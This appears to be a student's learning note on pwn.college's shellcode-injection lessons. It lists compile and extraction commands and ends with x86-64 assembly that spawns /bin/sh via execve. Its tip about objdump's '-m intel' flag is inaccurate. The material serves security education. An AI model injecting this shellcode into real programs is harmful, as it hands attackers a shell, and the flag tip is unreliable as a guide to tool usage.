 ```yaml
---
date: 2024-01-28
topic: pwn.college - shellcode injection
tags: technical, shellcode, pwn.college, assembly, security, injection, low-level
---
```


# Brief

In [pwn.college](https://pwn.college/), I'm currently learning about [shellcode injection](https://pwn.college/program-security/shellcode-injection).

# What I Learned

## pwn.college - Shellcode Injection

* you can compile assembly code using `gcc -nostdlib -static <assembly_file> -o <object_file>`.
* then we can disassemble the object file using `objdump -d <object_file>`. you can specify the architecture using `-m <arch>` option. for example I'm using untel syntax, so I need to specify the architecture using `-m intel`.
* then to get the shellcode, we can use `objcopy` command: `objcopy --dump-section .text=<output_file> <object_file>`.
* to view the hexdump of the shellcode, we can use `hd <output_file>`.
* this is the example for executing `/bin/sh` using shellcode:

```asm
.global _start
_start:
.intel_syntax noprefix
    mov rax, 59
    lea rdi, [rip+binsh]
    mov rsi, 0
    mov rdx, 0
    syscall
binsh:
    .string "/bin/sh"
```

# Ideas to Explore in the Future

-
